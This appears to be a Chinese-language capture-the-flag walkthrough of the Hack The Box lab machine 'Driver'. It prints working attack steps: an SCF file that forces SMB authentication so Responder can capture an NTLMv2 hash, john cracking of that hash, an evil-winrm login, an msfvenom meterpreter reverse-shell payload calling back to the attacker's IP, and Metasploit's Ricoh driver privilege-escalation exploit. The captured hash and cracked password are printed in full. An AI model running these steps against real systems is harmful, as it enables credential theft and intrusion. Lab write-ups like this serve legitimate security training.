

## Driver
### 总结
```
.scf 是 Shell Command File（Windows 外壳命令文件），一种很老的 Windows 配置型快捷方式文件
这个 nc.scf 本质上是一个 Windows 的快捷方式配置文件（Shell Command File），常用于 诱导 Windows 自动访问你的 SMB 共享，从而触发 NTLM 认证泄露（经典的 SCF/lnk/hash capture 技巧）

这是 SCF 的固定格式：
* Command=2 = 打开一个 shell 对象（基本是占位用）
* 真正有攻击意义的是 IconFile


[★]$ sudo responder -wv -I tun0
[★]$ cat nc.scf
[shell]
Command=2
IconFile=\\10.10.14.93\tools\nc.ico
[Taskbar]
Command=ToggleDecktop
触发 NTLM 认证泄露

[★]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.93 LPORT=4444 -f exe > shell.exe

[1] payload => windows/x64/meterpreter/reverse_tcp //一个 普通用户权限的 Meterpreter shell（tony）
[★]$ msfconsole
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost tun0
lhost => tun0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 4444
lport => 4444
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

尝试迁移到一个进程，例如资源管理器，它的会话id为1，这意味着它是互动
```
ctl+z
y
use multi/recon/local_exploit_suggester
set session 1
run
```
[2]use multi/recon/local_exploit_suggester //扫描当前系统 看：Windows 版本、补丁情况、已装驱动、权限配置

(Meterpreter 1)(C:\Users\tony\music) > migrate 4700
Background session 1? [y/N]  y
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> use multi/recon/local_exploit_suggester
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> set session 1
session => 1
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> run

15  exploit/windows/local/ricoh_driver_privesc                     Yes

*Evil-WinRM* PS C:\Users\tony\music> cat C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1

[3] use exploit/windows/local/ricoh_driver_privesc
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> use exploit/windows/local/ricoh_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(windows/local/ricoh_driver_privesc) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(windows/local/ricoh_driver_privesc) >> set session 1
session => 1
[msf](Jobs:0 Agents:1) exploit(windows/local/ricoh_driver_privesc) >> set lhost tun0
lhost => tun0
[msf](Jobs:0 Agents:1) exploit(windows/local/ricoh_driver_privesc) >> run
```
```
[★]$ ports=$(nmap -p- --min-rate=1000 -T4 10.129.95.238 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
[★]$ nmap -p$ports -sC -sV 10.129.95.238
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-03 02:51 CST
Nmap scan report for 10.129.95.238
Host is up (0.0087s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2026-02-03T15:51:45
|_  start_date: 2026-02-03T15:42:53
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```
#### Nmap输出显示了几个打开的端口。在端口80上，IIS web服务器正在运行，在端口135上，我们有Windows RPC，在端口445上运行SMB和微软Windows远程管理（WInRM）端口5985.

#### 访问端口80后，我们立即看到一个HTTP基本身份验证提示。尝试常用的用户名和密码组合，我们可以使用admin:admin登录。
#### 该网页指出，MFP固件更新中心对打印机固件进行各种测试和driver。让我们导航到固件更新并检查我们有什么选项。

```
[★]$ echo '10.129.95.238 driver.htb' | sudo tee -a /etc/hosts
10.129.95.238 driver.htb
```
#### 它提到固件被上传到文件共享，并由团队手动审查在内部。由于每个文件都是手动审查的，并且它被上传到SMB共享，因此我们可以上传一个文件当执行该命令时，将使用SMB与本地机器建立连接，从而允许我们获取NTLM散列。由于每个文件都是为了审查而打开的，我们可以上传一个带有从本地机器抓取单个文件的简单命令。首先，我们在一个终端中启动Responder。
```
[★]$ sudo responder -wv -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0
```
#### 然后我们上传一个。包含以下内容的SCF文件：
```
[★]$ cat nc.scf
[shell]
Command=2
IconFile=\\10.10.14.93\tools\nc.ico
[Taskbar]
Command=ToggleDecktop
```
```
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.129.95.238
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:aea48de7bdaa35f4:625BC8D75E57F85F9FE68E535D417D60:01010000000000000041EF3EB994DC018CCD7C67424DC12E0000000002000800390039003200540001001E00570049004E002D0059004D0054004800520052004A00500049004C00340004003400570049004E002D0059004D0054004800520052004A00500049004C0034002E0039003900320054002E004C004F00430041004C000300140039003900320054002E004C004F00430041004C000500140039003900320054002E004C004F00430041004C00070008000041EF3EB994DC01060004000200000008003000300000000000000000000000002000000FCD246130A16B5A25C5F20069B33CC3011FF0EA36906B6F2EAD962C31FCA67F0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0039003300000000000000000000000000
```
```
[★]$ vi hash
 [★]$ cat hash
tony::DRIVER:aea48de7bdaa35f4:625BC8D75E57F85F9FE68E535D417D60:01010000000000000041EF3EB994DC018CCD7C67424DC12E0000000002000800390039003200540001001E00570049004E002D0059004D0054004800520052004A00500049004C00340004003400570049004E002D0059004D0054004800520052004A00500049004C0034002E0039003900320054002E004C004F00430041004C000300140039003900320054002E004C004F00430041004C000500140039003900320054002E004C004F00430041004C00070008000041EF3EB994DC01060004000200000008003000300000000000000000000000002000000FCD246130A16B5A25C5F20069B33CC3011FF0EA36906B6F2EAD962C31FCA67F0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E0039003300000000000000000000000000
[★]$ cp /usr/share/wordlists/rockyou.txt.gz .
[★]$ gunzip rockyou.txt.gz
[★]$ john hash --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2026-02-03 03:08) 33.33g/s 1092Kp/s 1092Kc/s 1092KC/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```
#### 密码被成功破解，我们得到了密码。使用这些凭证，我们可以尝试使用WinRM登录到远程机器。
```
[★]$ evil-winrm -i 10.129.95.238 -u tony -p liltony
                                        
Evil-WinRM shell v3.5
                                        
*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
```
### Privilege Escalation
#### 由于我们在远程机器上有一个shell，我们可以尝试获取一个meterpreter会话，因为meterpreter在搜索本地特权升级漏洞时非常有用。首先，我们创建一个恶意的可执行文件，它将返回一个shell给我们的本地机器执行。
```
[★]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.93 LPORT=4444 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```
#### 配置msfconsole
```
[★]$ msfconsole
Metasploit tip: To save all commands executed since start up to a file, use the 
makerc command
                                                  
  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |
  +---------------------------+---------------------------+


       =[ metasploit v6.4.71-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 431 post       ]
+ -- --=[ 1669 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost tun0
lhost => tun0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 4444
lport => 4444
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 10.10.14.93:4444 
```
#### 最后，我们可以使用WinRM会话在远程机器上上传并执行shell.exe
```
*Evil-WinRM* PS C:\Users\tony\Documents> cd ..\music
*Evil-WinRM* PS C:\Users\tony\music> ls
*Evil-WinRM* PS C:\Users\tony\music> upload shell.exe C:\Users\tony\music\shell.exe
                                        
Info: Uploading /home/syareya55/shell.exe to C:\Users\tony\music\shell.exe
                                        
Data: 9556 bytes of 9556 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\tony\music> ls


    Directory: C:\Users\tony\music


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/3/2026   8:21 AM           7168 shell.exe


*Evil-WinRM* PS C:\Users\tony\music> 
*Evil-WinRM* PS C:\Users\tony\music> .\shell.exe
```
```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 10.10.14.93:4444 
[*] Sending stage (203846 bytes) to 10.129.95.238
[*] Meterpreter session 1 opened (10.10.14.93:4444 -> 10.129.95.238:49430) at 2026-02-03 03:21:47 -0600

(Meterpreter 1)(C:\Users\tony\music) > getuid
Server username: DRIVER\tony
(Meterpreter 1)(C:\Users\tony\music) >//枚举当前在系统上运行的进程，我们可以看到我们正在会话中0，表示计量器进程运行在非交互式隔离服务会话上
(Meterpreter 1)(C:\Users\tony\music) > ps

Process List
============

 PID   PPID  Name         Arch  Session  User         Path
 ---   ----  ----         ----  -------  ----         ----
 0     0     [System Pro
             cess]
 4     0     System
 268   4     smss.exe
 340   944   WUDFHost.ex
             e
 344   336   csrss.exe
 452   444   csrss.exe
 472   336   wininit.exe
 504   444   winlogon.ex
             e
 568   472   services.ex
             e
 584   472   lsass.exe
 660   568   svchost.exe
 672   568   sedsvc.exe
 704   568   svchost.exe
 732   568   svchost.exe
 812   568   svchost.exe
 864   568   svchost.exe
 876   568   svchost.exe
 896   504   dwm.exe
 944   568   svchost.exe
 980   568   svchost.exe
 1080  568   spoolsv.exe
 1340  660   explorer.ex  x64   1        DRIVER\tony  C:\Windows\explorer.exe
             e
 1380  568   svchost.exe
 1388  568   svchost.exe  x64   1        DRIVER\tony  C:\Windows\System32\svch
                                                      ost.exe
 1500  568   svchost.exe
 1528  568   svchost.exe
 1568  568   svchost.exe
 1588  568   VGAuthServi
             ce.exe
 1684  568   vmtoolsd.ex
             e
 1704  568   vm3dservice
             .exe
 1712  568   svchost.exe
 1920  1704  vm3dservice
             .exe
 2328  568   dllhost.exe
 2512  660   WmiPrvSE.ex
             e
 2564  568   msdtc.exe
 2592  568   svchost.exe
 2760  660   explorer.ex  x64   1        DRIVER\tony  C:\Windows\explorer.exe
             e
 2796  812   sihost.exe   x64   1        DRIVER\tony  C:\Windows\System32\siho
                                                      st.exe
 2816  568   SearchIndex
             er.exe
 2836  660   explorer.ex  x64   1        DRIVER\tony  C:\Windows\explorer.exe
             e
 2840  2988  conhost.exe  x64   1        DRIVER\tony  C:\Windows\System32\conh
                                                      ost.exe
 2988  812   cmd.exe      x64   1        DRIVER\tony  C:\Windows\System32\cmd.
                                                      exe
 3068  812   taskhostw.e  x64   1        DRIVER\tony  C:\Windows\System32\task
             xe                                       hostw.exe
 3236  3212  explorer.ex  x64   1        DRIVER\tony  C:\Windows\explorer.exe
             e
 3292  660   RuntimeBrok  x64   1        DRIVER\tony  C:\Windows\System32\Runt
             er.exe                                   imeBroker.exe
 3600  660   ShellExperi  x64   1        DRIVER\tony  C:\Windows\SystemApps\Sh
             enceHost.ex                              ellExperienceHost_cw5n1h
             e                                        2txyewy\ShellExperienceH
                                                      ost.exe
 3700  660   SearchUI.ex  x64   1        DRIVER\tony  C:\Windows\SystemApps\Mi
             e                                        crosoft.Windows.Cortana_
                                                      cw5n1h2txyewy\SearchUI.e
                                                      xe
 3928  4700  shell.exe    x64   0        DRIVER\tony  C:\Users\tony\Music\shel
                                                      l.exe
 4284  568   svchost.exe
 4688  3236  vmtoolsd.ex  x64   1        DRIVER\tony  C:\Program Files\VMware\
             e                                        VMware Tools\vmtoolsd.ex
                                                      e
 4700  660   wsmprovhost  x64   0        DRIVER\tony  C:\Windows\System32\wsmp
             .exe                                     rovhost.exe
 4732  3236  OneDrive.ex  x86   1        DRIVER\tony  C:\Users\tony\AppData\Lo
             e                                        cal\Microsoft\OneDrive\O
                                                      neDrive.exe
 4744  660   WmiPrvSE.ex
             e
 4800  1712  w3wp.exe
 5088  2988  PING.EXE     x64   1        DRIVER\tony  C:\Windows\System32\PING
                                                      .EXE

(Meterpreter 1)(C:\Users\tony\music) > 


```
#### 我们可以尝试迁移到一个进程，例如资源管理器，它的会话id为1，这意味着它是互动。
```
ctl+z
y
use multi/recon/local_exploit_suggester
set session 1
run
```
```
(Meterpreter 1)(C:\Users\tony\music) > migrate 4700
[*] Migrating from 3928 to 4700...
[*] Migration completed successfully.
(Meterpreter 1)(C:\Windows\system32) > 
Background session 1? [y/N]  y
[-] Unknown command: y. Run the help command for more details.
[msf](Jobs:0 Agents:1) exploit(multi/handler) >> use multi/recon/local_exploit_suggester
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> set session 1
session => 1
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> run

[*] 10.129.95.238 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/bypassuac_fodhelper                      Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/cve_2019_1458_wizardopium                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The target appears to be vulnerable. Vulnerable Windows 10 v1507 build detected!
 9   exploit/windows/local/cve_2020_1048_printerdemon               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/cve_2020_1337_printerdemon               Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/cve_2021_40449                           Yes                      The target appears to be vulnerable. Vulnerable Windows 10 v1507 build detected!
 12  exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.
 13  exploit/windows/local/cve_2024_30088_authz_basep               Yes                      The target appears to be vulnerable. Version detected: Windows 10 version 1507. Revision number detected: 17394
 14  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 15  exploit/windows/local/ricoh_driver_privesc                     Yes                      The target appears to be vulnerable. Ricoh driver directory has full permissions
 16  exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.


在15 15 exploit/windows/local/ricoh_driver_privesc
   
```
#### 我们有一个可能的漏洞列表。鉴于主网站提到了打印机软件我们对与打印机相关的漏洞更感兴趣。另一个提示可以通过读取Powershell历史文件
```
*Evil-WinRM* PS C:\Users\tony\music> cat C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1

打印机对象创建操作（Printer Installation / Driver Binding）
技术含义：
Add-Printer：PowerShell 打印子系统管理命令（PrintManagement module）
-DriverName 'RICOH PCL6 UniversalDriver V4.23'：
指定了一个 打印机驱动程序（printer driver）
-PortName 'lpt1:'：
使用本地端口（LPT1）绑定打印机
也就是说：
该用户曾在系统上 手动安装/绑定过一个打印机驱动
```
#### Powershell历史记录显示发出了添加打印机的命令。我们还可以看到司机的名称为RICOH PCL6 UniversalDriver V4.23。查看我们的可能漏洞列表，我们发现了一个漏洞模块名为ricoh driver privesc。漏洞的名称和安装的驱动程序的紧密联系听起来很有希望，所以我们决定继续利用这个漏洞。我们使用以下命令通过我们的计量器在远程机器上执行漏洞利用会话。
```
[msf](Jobs:0 Agents:1) post(multi/recon/local_exploit_suggester) >> use exploit/windows/local/ricoh_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(windows/local/ricoh_driver_privesc) >> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:1) exploit(windows/local/ricoh_driver_privesc) >> set session 1
session => 1
[msf](Jobs:0 Agents:1) exploit(windows/local/ricoh_driver_privesc) >> set lhost tun0
lhost => tun0
[msf](Jobs:0 Agents:1) exploit(windows/local/ricoh_driver_privesc) >> run
[*] Started reverse TCP handler on 10.10.14.93:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Adding printer gxkJDRUIG...

```
```
*Evil-WinRM* PS C:\Users\tony\music> .\shell.exe
```
```
[msf](Jobs:0 Agents:1) exploit(windows/local/ricoh_driver_privesc) >> run
[*] Started reverse TCP handler on 10.10.14.93:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Adding printer gxkJDRUIG...
[*] Sending stage (203846 bytes) to 10.129.95.238
[+] Deleted C:\Users\tony\AppData\Local\Temp\mAjAhDB.bat
[+] Deleted C:\Users\tony\AppData\Local\Temp\headerfooter.dll
[*] Meterpreter session 2 opened (10.10.14.93:4444 -> 10.129.95.238:49431) at 2026-02-03 03:44:59 -0600
[*] Deleting printer gxkJDRUIG

(Meterpreter 2)(C:\Users\tony\music) > getuid
Server username: DRIVER\tony

(Meterpreter 2)(C:\Users\tony) > cd Desktop
(Meterpreter 2)(C:\Users\tony\Desktop) > cat user.txt
